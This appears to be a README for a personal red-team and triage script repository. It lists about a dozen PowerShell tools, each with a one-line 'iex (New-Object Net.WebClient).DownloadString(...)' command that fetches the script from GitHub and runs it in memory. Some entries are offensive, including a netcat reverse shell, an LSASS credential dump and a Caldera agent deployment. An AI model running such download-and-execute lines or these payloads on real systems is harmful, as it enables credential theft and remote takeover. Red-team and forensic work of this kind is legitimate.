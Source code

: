 # Eren Red Team
This repository contains the scripts that is created by Eren Red Team.

## bootstrap.ps1
Downloads necessary installation packages for CyberPipe and runs it, creates .vhdx file of the target.
``` powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dheenaxe/ErenRedTeam/refs/heads/main/bootstrap.ps1')
```

## transfer.ps1
Automatically finds .vhdx file in the determined destination path and sends it to FTP server.
``` powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dheenaxe/ErenRedTeam/refs/heads/main/transfer.ps1')
```

## cekmece.ps1
Triage tools with little automation
``` powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dheenaxe/ErenRedTeam/refs/heads/main/cekmece.ps1') 
```

## inspedefe.ps1
String search tool inspired by Didier Stevens's PDFiD
``` powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dheenaxe/ErenRedTeam/refs/heads/main/inspedefe.ps1') 
```

## korktunmu.ps1
Python and PIP Installation using Chocolatey
``` powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dheenaxe/ErenRedTeam/refs/heads/main/korktunmu.ps1') 
```

## olegunnar.ps1
Glue to use ole-tools
``` powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dheenaxe/ErenRedTeam/refs/heads/main/korktunmu.ps1') 
```

## godhand.ps1
Simple reverse shell with netcat without no obfuscation
``` powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dheenaxe/ErenRedTeam/refs/heads/main/godhand.ps1') 
```

## macaron.ps1
Loudest LSASS dump ever
``` powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dheenaxe/ErenRedTeam/refs/heads/main/macaron.ps1') 
```

## nese.ps1
Enables advanced audit policies and PowerShell logging for detailed process, authentication, and privilege monitoring
``` powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dheenaxe/ErenRedTeam/refs/heads/main/nese.ps1') 
```

## lumpen.ps1
Performs a scan of all running processes and scheduled tasks 
``` powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dheenaxe/ErenRedTeam/refs/heads/main/lumpen.ps1') 
```

## paradise.ps1
Caldera agent deployment via PowerShell
``` powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dheenaxe/ErenRedTeam/refs/heads/main/paradise.ps1') 
```